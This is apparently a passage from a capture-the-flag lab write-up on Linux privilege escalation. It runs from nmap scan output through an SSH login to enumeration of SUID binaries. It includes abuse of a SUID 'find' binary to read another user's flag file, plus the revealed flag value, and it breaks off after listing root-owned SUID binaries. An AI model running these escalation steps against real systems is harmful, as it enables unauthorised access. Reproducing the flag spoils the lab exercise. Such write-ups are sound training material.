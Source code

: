 ```
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   28.71 ms 10.8.0.1
2   28.93 ms 10.10.178.163

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.16 seconds
```

`65534`

2. Find and run a file as igor. Read the file /home/igor/flag1.txt

```
ssh holly@10.10.178.163 -p 65534

holly@ip-10-10-178-163:~$ find / -user igor -perm -4000 -exec ls -ldb {} \; 2> /dev/null
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
-rwsr-xr-x 1 igor igor 2770528 Mar 31  2016 /usr/bin/nmap

holly@ip-10-10-178-163:~$ find foo -exec cat /home/igor/flag1.txt \;
THM{d3f0708bdd9accda7f937d013eaf2cd8}
```

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

```
holly@ip-10-10-178-163:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Aug 23  2019 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40152 Aug 23  2019 /bin/mount
-rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7396/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7396/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7396/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7396/bin/su
-rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7396/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7396/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7396/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7396/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7396/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7396/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /snap/core/7396/usr/bin/sudo
-rwsrwxr-x 1 root root 8880 Dec  7  2019 /usr/bin/system-control
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newgidmap
```